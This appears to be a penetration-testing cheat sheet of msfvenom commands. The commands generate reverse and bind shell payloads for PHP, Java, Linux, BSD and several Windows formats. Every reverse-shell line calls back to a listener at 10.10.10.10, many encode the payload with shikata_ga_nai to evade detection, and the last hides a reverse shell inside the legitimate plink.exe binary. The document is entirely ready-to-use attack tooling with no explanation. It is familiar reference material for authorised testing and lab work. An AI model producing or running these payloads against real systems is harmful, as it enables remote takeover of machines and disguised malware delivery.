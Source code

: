 # MSFVenom Commands

## PHP reverse shell

msfvenom -p php/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php

## Java WAR reverse shell

msfvenom -p java/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war

## Linux bind shell

msfvenom -p linux/x86/shell\_bind\_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata\_ga\_nai

## Linux FreeBSD reverse shell

msfvenom -p bsd/x64/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf

## Linux C reverse shell

msfvenom -p linux/x86/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata\_ga\_nai -f c

## Windows non staged reverse shell

msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata\_ga\_nai -f exe -o non\_staged.exe

## Windows Staged (Meterpreter) reverse shell

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata\_ga\_nai -f exe -o meterpreter.exe

## Windows Python reverse shell

msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py

## Windows ASP reverse shell

msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata\_ga\_nai -o shell.asp

## Windows ASPX reverse shell

msfvenom -f aspx -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata\_ga\_nai -o shell.aspx

## Windows JavaScript reverse shell with nops

msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -f js\_le -e generic/none -n 18

## Windows Powershell reverse shell

msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata\_ga\_nai -i 9 -f psh -o shell.ps1

## Windows reverse shell excluding bad characters

msfvenom -p windows/shell\_reverse\_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata\_ga\_nai

## Windows x64 bit reverse shell

msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe

## Windows reverse shell embedded into plink

msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata\_ga\_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell\_reverse\_msf\_encoded\_embedded.exe
